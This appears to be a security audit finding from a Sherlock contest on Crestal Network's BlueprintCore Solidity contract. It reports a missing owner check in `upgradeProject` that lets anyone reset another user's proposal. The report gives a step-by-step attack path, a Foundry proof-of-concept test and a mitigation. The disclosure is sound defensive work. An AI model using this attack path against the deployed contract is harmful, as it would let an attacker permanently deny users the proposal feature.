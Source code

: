 Micro Concrete Bison

Medium

# User can reset other's proposal without permission

### Summary

Function `upgradeProject` in `BlueprintCore` allow user reset proposal information of a project. However, anyone can call this function and reset any project information if they know projectId.

### Root Cause

In `BlueprintCore.sol` , function  [upgradeProject(bytes32 projectId)](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198C4-L203C6) user reset proposal information of a project based on projectId. However, this function doesn't check if caller is owner of project or not.

### Internal Pre-conditions

Null

### External Pre-conditions

Existed create and proposal request created by some users.

### Attack Path

1. User A create project and proposal request using some function like `function createCommonProposalRequest( address userAddress, bytes32 projectId, string memory base64RecParam, string memory serverURL)`
2. Attacker monitor that call on chain and can extract `projectId` value 
3. Attacker call `upgradeProject` with param is `projectId` which they get from step 2
4. User A's project proposal request's information is reset

### Impact

Attacker can reset project's proposal request, so user's proposal request is no longer process. 
So the impact here is attacker can DOS proposal feature **permanently** if they want.

### PoC

Please add this `getrequestProposalID` function into `crestal-omni-contracts\src\BlueprintCore.sol` (a view function for testing purpose)
```solidity
function getrequestProposalID(bytes32 projectId) public view returns (bytes32) {
        return projects[projectId].requestProposalID;
    }
```

Please add this `test_proposal` function into `crestal-omni-contracts\test\BlueprintV5.t.sol` and run test
```solidity
function test_proposal() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        address user1 = address(123);
        address user2 = address(1234);

        vm.startPrank(user1);
        blueprint.createProjectIDAndProposalRequest(projectId, base64Proposal, serverURL);
        console.logBytes32(blueprint.getrequestProposalID(projectId));

        vm.startPrank(user2);
        blueprint.upgradeProject(projectId);
        console.logBytes32(blueprint.getrequestProposalID(projectId));
    }
```

So we can see that requestProposalID and other fieald is reset without permission

### Mitigation

Add permission check for `upgradeProject` function, only owner of project can call it with their projectId